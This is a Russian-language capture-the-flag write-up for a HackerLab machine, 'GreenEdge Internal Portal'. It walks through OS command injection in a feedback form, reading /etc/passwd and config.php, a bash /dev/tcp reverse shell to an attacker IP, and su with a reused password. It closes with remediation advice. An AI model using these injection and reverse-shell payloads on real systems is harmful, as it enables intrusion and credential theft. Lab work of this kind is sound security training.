# HackerLab — Pentest Machine: GreenEdge Internal Portal

<table>
<tr><td><b>Категория</b></td><td>Pentest Machine (Web → OS Command Injection → Reverse Shell → Local Access)</td></tr>
<tr><td><b>Класс уязвимости</b></td><td>OS Command Injection</td></tr>
<tr><td><b>CWE</b></td><td>CWE-78 (Improper Neutralization of Special Elements used in an OS Command)</td></tr>
<tr><td><b>Цель</b></td><td><code>192.168.2.219</code> (GreenEdge Internal Portal)</td></tr>
<tr><td><b>Инструменты</b></td><td>Браузер / DevTools, Ncat (листенер reverse-shell), Bash</td></tr>
</table>

---

---

## Оглавление

1. [Краткое summary](#краткое-summary)
2. [Методология и карта MITRE ATT&CK](#методология-и-карта-mitre-attck)
3. [Разведка](#1-разведка)
4. [Обнаружение Command Injection](#2-обнаружение-command-injection)
5. [Подтверждение на разных разделителях](#3-подтверждение-на-разных-разделителях)
6. [Энумерация файловой системы и находка первой части флага](#4-энумерация-файловой-системы-и-находка-первой-части-флага)
7. [Утечка credentials через config.php](#5-утечка-credentials-через-configphp)
8. [Получение Reverse Shell](#6-получение-reverse-shell)
9. [Переход на пользователя charley](#7-переход-на-пользователя-charley)
10. [Находка второй части флага](#8-находка-второй-части-флага)
11. [Разбор уязвимости](#разбор-уязвимости)
12. [Рекомендации по устранению](#рекомендации-по-устранению)
13. [Выводы](#выводы)

---

## Краткое summary

На внутреннем портале компании GreenEdge (`192.168.2.219`) форма обратной связи (`feedback.php`) передавала введённый пользователем текст напрямую в системную команду (судя по логам — вызов `sendmail`), без какой-либо фильтрации метасимволов shell. Это позволило:

1. Подтвердить **OS Command Injection** через разделители `;`, `|`, `&`, `&&`.
2. Прочитать `/etc/passwd` и определить список локальных пользователей (`charley`, `hacker`).
3. Через `pwd`/`ls -la` определить рабочую директорию приложения (`/var/www/html`) и найти файл `root_flag.txt` — первый фрагмент флага.
4. Прочитать `config.php` и получить учётные данные (`SuperSecret123`), которые оказались переиспользованы как пароль локального пользователя `charley`.
5. Через ту же инъекцию запустить reverse shell (`bash -i >& /dev/tcp/...`) и получить интерактивный доступ в контексте `www-data`.
6. Выполнить `su charley` с утёкшим паролем, повысить класс доступа с веб-процесса до полноценной пользовательской сессии.
7. В домашней директории `charley` найти файл `first_part` — вторую часть флага.

---

## Методология и карта MITRE ATT&CK

| № | Шаг | Тактика (Tactic) | Техника (Technique) |
|---|---|---|---|
| 1 | Изучение страниц портала, обнаружение формы Feedback | Reconnaissance (TA0043) | [T1595.002 — Active Scanning: Vulnerability Scanning](https://attack.mitre.org/techniques/T1595/002/) |
| 2 | Инъекция shell-команды через поле ввода формы | Initial Access (TA0001) | [T1190 — Exploit Public-Facing Application](https://attack.mitre.org/techniques/T1190/) |
| 3 | Выполнение команд через разные разделители (`;`, `\|`, `&`, `&&`) | Execution (TA0002) | [T1059.004 — Command and Scripting Interpreter: Unix Shell](https://attack.mitre.org/techniques/T1059/004/) |
| 4 | `pwd`, `ls -la` — определение структуры директорий | Discovery (TA0007) | [T1083 — File and Directory Discovery](https://attack.mitre.org/techniques/T1083/) |
| 5 | Чтение `root_flag.txt` и `config.php` | Collection (TA0009) | [T1005 — Data from Local System](https://attack.mitre.org/techniques/T1005/) |
| 6 | Извлечение учётных данных БД из `config.php` | Credential Access (TA0006) | [T1552.001 — Unsecured Credentials: Credentials In Files](https://attack.mitre.org/techniques/T1552/001/) |
| 7 | Запуск reverse-shell пейлоада через injection | Command and Control (TA0011) | [T1071 / T1095 — Non-Application Layer Protocol (raw TCP reverse shell)](https://attack.mitre.org/techniques/T1095/) |
| 8 | `su charley` с переиспользованным паролем | Privilege Escalation (TA0004) | [T1078.003 — Valid Accounts: Local Accounts](https://attack.mitre.org/techniques/T1078/003/) |
| 9 | Апгрейд TTY через `python3 -c 'pty.spawn(...)'` | Execution (TA0002) | [T1059.006 — Command and Scripting Interpreter: Python](https://attack.mitre.org/techniques/T1059/006/) |
| 10 | Энумерация `/home`, обнаружение `first_part` | Discovery (TA0007) | [T1083 — File and Directory Discovery](https://attack.mitre.org/techniques/T1083/) |


---

## 1. Разведка

**MITRE ATT&CK:** TA0043 Reconnaissance → T1595.002

Переходим на главную страницу внутреннего портала компании GreenEdge. В навигации присутствуют разделы `Home`, `About`, `Contact`, `Feedback`.



Раздел `Feedback` содержит простую форму с текстовым полем и кнопкой `Submit` — потенциальная точка ввода пользовательских данных.



При отправке тестового значения `pablo` в логах страницы видно вызов `[sendmail] Content:pablo` — это указывает, что введённое значение, вероятно, передаётся в системную утилиту `sendmail` на бэкенде.

---

## 2. Обнаружение Command Injection

**MITRE ATT&CK:** TA0001 Initial Access → T1190 Exploit Public-Facing Application

Раз значение попадает в вызов внешней команды на сервере, логично проверить классическую **OS Command Injection** через `;`:

```
pablo; cat /etc/passwd
```



Сервер выполнил обе команды подряд и вернул содержимое `/etc/passwd`. Среди локальных пользователей видны нестандартные записи:

```
charley:x:1000:1000::/home/charley:/bin/bash
hacker:x:1001:1001:,,,:/home/hacker:/bin/bash
```

Это прямое подтверждение инъекции — приложение не экранирует и не фильтрует метасимволы оболочки во входных данных формы.

---

## 3. Подтверждение на разных разделителях

**MITRE ATT&CK:** TA0002 Execution → T1059.004 Command and Scripting Interpreter: Unix Shell

Для полноты картины проверяем, какие ещё разделители команд доступны (это важно для дальнейшего построения пейлоада reverse shell):

| Разделитель | Payload | Результат |
|---|---|---|
| `;` | `pablo; cat /etc/passwd` | Подтвержден |
| `\|` | `pablo \| cat /etc/passwd` | Подтвержден |
| `&` | `pablo & cat /etc/passwd` | Подтвержден |
| `&&` | `pablo && cat /etc/passwd` | Подтвержден |





Ни один из метасимволов (`;`, `|`, `&`) не фильтруется на бэкенде — это говорит о практически полном отсутствии какой-либо санитизации пользовательского ввода перед передачей его в shell.

---

## 4. Энумерация файловой системы и находка первой части флага

**MITRE ATT&CK:** TA0007 Discovery → T1083 File and Directory Discovery; TA0009 Collection → T1005

Определяем рабочую директорию процесса:

```
pablo && pwd
→ /var/www/html
```



Листинг содержимого директории:

```
pablo && ls -la
```



В выводе — файлы приложения (`index.php`, `config.php`, `feedback.php` и др.) и файл `root_flag.txt`, доступный на чтение (`-rw-r----- root charley`).

Читаем файл:

```
pablo && cat root_flag.txt
```



Получен фрагмент: `...}` — завершающая часть будущего флага.

---

## 5. Утечка credentials через config.php

**MITRE ATT&CK:** TA0006 Credential Access → T1552.001 Unsecured Credentials: Credentials In Files

В листинге директории также присутствовал `config.php`, не вызываемый напрямую через веб (не вынесен в навигацию приложения), но доступный для чтения через инъекцию:

```
pablo && cat config.php
```



```php
$DB_HOST = 'localhost';
$DB_USER = 'root';
$DB_PASS = 'SuperSecret123';
$DB_NAME = 'internal_data';
```

Пароль `SuperSecret123`, задуманный как креды к БД, как выяснится дальше — переиспользован в качестве пароля системного пользователя `charley`. Классическая ошибка практики безопасности. Один и тот же секрет используется для разных уровней доступа.

---

## 6. Получение Reverse Shell

**MITRE ATT&CK:** TA0011 Command and Control → T1095 Non-Application Layer Protocol; TA0002 Execution → T1059.004

Поднимаем листенер на атакующей машине:

```bash
ncat -lvnp 6723
```



Отправляем через форму Feedback пейлоад, устанавливающий обратное соединение:

```
pablo; bash -c 'bash -i >& /dev/tcp/192.168.125.251/6723 0>&1'
```



На стороне листенера приходит соединение, получаем интерактивный shell в контексте `www-data`:

```
Ncat: Connection from 192.168.2.219:44040.
www-data@85e0a64f451a:/var/www/html$
```

---

## 7. Переход на пользователя charley

**MITRE ATT&CK:** TA0004 Privilege Escalation → T1078.003 Valid Accounts: Local Accounts; TA0002 Execution → T1059.006

Используем пароль, утёкший из `config.php`, для смены пользователя:

```bash
su charley
Password: SuperSecret123
```

Апгрейдим TTY до полноценного интерактивного shell:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```



```
charley@85e0a64f451a:/var/www/html$ id
uid=1000(charley) gid=1000(charley) groups=1000(charley)
```

Пароль из конфигурации БД подошёл к системной учётной записи — повышение с контекста веб-процесса (`www-data`) до полноценной пользовательской сессии `charley`.

---

## 8. Находка второй части флага

**MITRE ATT&CK:** TA0007 Discovery → T1083; TA0009 Collection → T1005; TA0004 Privilege Escalation → T1068 (потенциальный next step)

Переходим в домашнюю директорию и просматриваем содержимое:

```bash
cd /home/charley
ls
```


Среди файлов, загруженных на хост находим first_part и читаем ее:

```bash
cat first_part
```
Флаг полностью собран!

---

## Разбор уязвимости

<table>
<tr><td><b>Тип</b></td><td>OS Command Injection</td></tr>
<tr><td><b>CWE</b></td><td><a href="https://cwe.mitre.org/data/definitions/78.html">CWE-78</a> — Improper Neutralization of Special Elements used in an OS Command</td></tr>
<tr><td><b>Точка входа</b></td><td>Поле ввода формы <code>feedback.php</code>, передаваемое в вызов <code>sendmail</code> на бэкенде</td></tr>
<tr><td><b>Корневая причина</b></td><td>Отсутствие экранирования/фильтрации пользовательского ввода перед передачей в shell-вызов; рабочий весь набор метасимволов (<code>;</code>, <code>|</code>, <code>&</code>, <code>&&</code>)</td></tr>
<tr><td><b>Сопутствующая проблема</b></td><td>Переиспользование пароля БД (<code>config.php</code>) в качестве пароля системной учётной записи <code>charley</code></td></tr>
<tr><td><b>Ориентировочный уровень</b></td><td>Critical (CVSS 3.1 ≈ 9.8) — удалённое выполнение произвольных команд без аутентификации</td></tr>
<tr><td><b>Воздействие</b></td><td>Полное выполнение команд от имени веб-процесса, чтение чувствительных файлов, утечка credentials, получение интерактивного shell, повышение привилегий до локального пользователя</td></tr>
</table>

---

## Рекомендации по устранению

1. **Не передавать пользовательский ввод в shell вообще.** Для отправки писем использовать штатные библиотеки (`PHPMailer`, `Symfony Mailer` и т.п.) через SMTP вместо вызова `sendmail` через `exec()`/`shell_exec()`/`popen()`.
2. **Если вызов внешней команды неизбежен** — использовать `escapeshellarg()` / `escapeshellcmd()` для каждого аргумента, и строить команду через `proc_open()` с явным массивом аргументов, а не конкатенацией строки.
3. **Allowlist на уровне ввода.** Для поля "обратная связь" нет причин разрешать символы `;`, `|`, `&`, `` ` ``, `$()` — валидировать содержимое на уровне ожидаемого формата (обычный текст).
4. **Не переиспользовать пароли между сервисами.** Пароль от БД не должен совпадать с паролем системной учётной записи — компрометация одного секрета не должна приводить к компрометации другого уровня доступа.
5. **Закрыть доступ к `config.php` и прочим служебным файлам** на уровне веб-сервера (например, вынести конфигурацию за пределы `document root` или ограничить доступ через `.htaccess`/правила nginx).
6. **Мониторинг аномальных процессов**: исходящие TCP-соединения от веб-процесса (`www-data`) на нестандартные порты (как в случае с reverse shell на 6723) должны детектироваться EDR/IDS-решением.

---

## Выводы

Цепочка компрометации машины GreenEdge началась с классической **OS Command Injection** в форме обратной связи, вызванной отсутствием какой-либо фильтрации пользовательского ввода перед передачей его в системный вызов `sendmail`. Через инъекцию был прочитан исходный код `config.php`, что привело к утечке пароля, который оказался переиспользован как пароль системного пользователя `charley`. Далее был получен интерактивный reverse shell, выполнен `su charley` и в домашней директории пользователя обнаружен второй фрагмент флага.

Данный кейс наглядно показывает, что одна-единственная непровалидированная точка ввода (поле обратной связи) привела к полной компрометации хоста: от RCE через command injection до валидных учётных данных пользователя, именно потому что в системе не соблюдались сразу два базовых принципа — **валидация ввода** и **изоляция секретов между уровнями доступа**.

---

> ⚠️ **Материал подготовлен в учебных целях по заданию с платформы HackerLab. Маппинг на MITRE ATT&CK приведён для иллюстрации методологии и не подразумевает атаку на реальную инфраструктуру.**
